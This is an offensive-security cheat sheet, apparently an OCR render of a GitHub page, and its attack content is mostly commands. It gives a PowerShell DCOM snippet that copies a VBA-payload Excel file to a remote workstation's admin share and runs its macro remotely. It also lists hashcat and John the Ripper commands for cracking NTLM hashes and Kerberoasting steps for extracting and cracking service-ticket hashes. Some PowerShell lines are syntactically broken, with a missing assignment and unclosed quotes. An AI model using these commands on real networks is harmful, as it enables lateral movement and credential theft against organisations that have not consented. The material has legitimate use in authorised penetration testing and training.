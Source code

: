 DCOM - Copy file to remote and execute
```
# create instance of Excel.Application object
$com [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "[target_workstation]"))

# copy Excel file containing VBA payload to target
$LocalPath = "C:\Users\[user]\badexcel.xls
$RemotePath = "\\[target]\c$\badexcel.xls
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

# create a SYSTEM profile - required as part of the opening process
$path = "\\[target]\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)

# open Excel file and execute macro
$Workbook = $com.Workbooks.Open("C:\myexcel.xls")
$com.Run("mymacro")
```


## Hash Cracking

Cracking NT (NTLM) hashes
```
$ hashcat -m 1000 -a 0 hashes.txt [path/to/wordlist.txt] -o cracked.txt
$ john --wordlist=[path/to/wordlist.txt] hashes.txt
```

Kerberoasting - Crack SPN hashes via. exported `.kirbi` tickets.
* Walkthrough: https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting
```
# Kerberoast
$ python3 tgsrepcrack.py rockyou.txt [ticket.kirbi]  # locally crack hashes
PS> Invoke-Kerberoast.ps1                            # crack hashes on target

# John the Ripper
$ python3 kirbi2john.py -o johncrackfile ticket.kirbi  # convert ticket to john file
$ john --wordlist=rockyou.txt johncrackfile
```


